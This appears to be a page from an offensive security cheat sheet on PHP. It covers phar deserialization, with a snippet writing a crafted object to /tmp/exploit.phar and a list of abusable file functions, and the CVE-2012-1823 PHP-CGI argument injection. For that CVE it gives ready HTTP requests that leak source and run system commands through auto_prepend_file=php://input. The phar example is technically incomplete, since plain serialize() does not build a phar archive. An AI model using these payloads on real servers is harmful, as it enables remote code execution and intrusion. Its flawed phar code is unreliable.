 PHP
===


## Deserialization

### Phar deserialization
The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)
